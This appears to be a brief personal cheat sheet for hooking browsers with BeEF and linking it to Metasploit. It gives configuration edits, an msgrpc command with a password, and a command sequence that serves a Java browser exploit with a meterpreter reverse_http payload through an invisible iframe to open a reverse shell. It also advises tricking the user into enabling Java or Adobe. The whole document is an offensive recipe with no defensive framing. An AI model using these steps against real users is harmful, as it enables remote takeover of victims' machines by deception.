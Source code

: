 hook beef with metasploit setup
===============================
- cd /usr/share/beef-xss/
- leafpad config.yaml -> change "metasploit" to true
- cd /usr/share/beef-xss/extensions/metasploit/
- leafpad config.yaml -> change host and call back host to beef host address (public or local); os: ‘custom’, path: ‘/usr/share/metasploit-framework’
- cd /usr/share/metasploit-framework/config/
- leafpad database.yml -> make sure the postgresql name is msf

hook
=======
- load msgrpc ServerHost=10.0.0.6 Pass=abc123
- cd /usr/share/beef-xss/
- ./beef


create reverse shell
========================
- somehow trick the user enable java or adobe etc.
- use exploit/windows/browser/java_cmm
- set srvhost 10.0.0.6 (different ports)
- set target 0/1
- set payload windows/metepreter/reverse_http
- set lhost 10.0.0.6
- run
- go to beef; misc; create invisible iframe
- type in the address given by metasploit
